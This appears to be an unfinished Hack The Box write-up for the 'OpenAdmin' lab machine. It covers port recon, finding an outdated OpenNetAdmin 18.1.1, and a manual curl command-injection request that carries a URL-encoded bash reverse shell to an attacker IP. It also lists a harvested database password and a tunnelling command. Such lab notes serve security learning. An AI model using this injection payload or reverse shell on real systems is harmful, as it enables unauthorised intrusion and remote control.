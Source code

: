 ## Linux Machine - OpenAdmin
- [+] :  Target IP
      >> 10.10.10.171

### Adventure Mode

## Recon
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

- [+] :  port 80 shows apache default page , lemme add openadmin.htb in dns and try again 
      >> same output .

- [+] :  dirbusting http://openadmin.htb/music/ && http://openadmin.htb/ona/
      >> directory opennetadmin open and running an old version 18.1.1
## foothold

```bash
searchsploit opennetadmin       
OpenNetAdmin 18.1.1 - Command Injection Explo | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution   | php/webapps/47691.sh
```
./exploit.sh http://10.10.10.171/ona/ [make sure to write the full path otherwise you'll get redirect 301]

 curl --silent -L -d "xajax=window_submit&xajaxr=$(date +%s%3N)&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo%20\"BEGIN\";%2Fbin%2Fbash+-c+%27%2Fbin%2Fbash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.4%2F4444+0%3E%261%27;echo%20\"END\"&xajaxargs[]=ping" "http://openadmin.htb/ona/" [exploiting manually for stable revshell ]
 
 - [+] :  writable 
 /opt/ona/bin


db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
        
jimmy
joanna


client http://10.10.14.4:3636 R:52846:127.0.0.1:52846

bloodninjas
##user recon


- [+] :  
      >> 

- [+] :  
      >> 

- [+] :  
      >> 

- [+] :  
      >> 




### Guided Mode

## Tasks 
